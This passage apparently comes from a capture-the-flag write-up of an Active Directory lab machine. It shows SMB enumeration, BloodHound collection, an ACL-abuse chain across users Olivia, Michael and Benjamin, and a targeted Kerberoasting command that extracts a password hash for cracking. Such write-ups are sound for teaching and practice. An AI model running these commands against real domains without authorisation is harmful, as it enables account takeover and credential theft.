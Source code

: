 -   **I connect to** `SYSVOL`:
    -   `smbclient -U 'guest' "\\\\$box\\SYSVOL"`
    -   {{< figure src="/ox-hugo/2024-11-10-081530_.png" >}}
    -   Nothing immediately jumps out lets table this.


## 2. Lateral Movement: {#2-dot-lateral-movement}


### Running a BloodHound Collection: {#running-a-bloodhound-collection}

-   **As we have credentials we can run bloodhound collection**
    -   `bloodhound-python -dc $machine.$domain -c All -u $user -p $pass -d $domain -ns $box`
    -   {{< figure src="/ox-hugo/2024-11-10-080541_.png" >}}


### Discovering an attack chain for lateral movement in bloodhound: {#discovering-an-attack-chain-for-lateral-movement-in-bloodhound}

-   **Looking at our bloodhound results we can see that Olivia has** `GenericAll` **rights over Michael which allows alot of potentially attack paths for us**:
    -   {{< figure src="/ox-hugo/2024-11-10-081920_.png" >}}
    -   We can perform a Targeted Kerberoasting Attack, Force Change their Password or a Shadow Credentials attack (these are just a few options.)
        -   We just need to look at the edge in bloodhound:
            -   {{< figure src="/ox-hugo/2024-11-10-092913_.png" >}}

-   **Michael in turn has the** `ForceChangePassword` **privilege over Benjamin**:
    -   {{< figure src="/ox-hugo/2024-11-10-082042_.png" >}}
    -   This means if we can control Michael we can then change Benjamin's password
    -   {{< figure src="/ox-hugo/2024-11-10-092959_.png" >}}

-   **Benjamin is a member of the Share Moderators group**:
    -   {{< figure src="/ox-hugo/2024-11-10-082232_.png" >}}
    -   So far I am unsure of what specifically this will grant us just yet but it seems like something interesting to go after.


### Performing a targeted kerberoasting attack on Michael: {#performing-a-targeted-kerberoasting-attack-on-michael}

-   I perform am going to perform a targeted kerberoast attack on michael from olivia's account. This way we can extract a hash for cracking.

-   **Clone the repo**:
    -   `git clone https://github.com/ShutdownRepo/targetedKerberoast.git`

-   **Perform our attack**:
    -   `python3 targetedKerberoast.py -v -d $domain -u $user -p $pass --request-user michael -o michael.kerb`
    -   {{< figure src="/ox-hugo/2024-11-10-103611_.png" >}}


### Attempting to crack Michael's password with hashcat: {#attempting-to-crack-michael-s-password-with-hashcat}
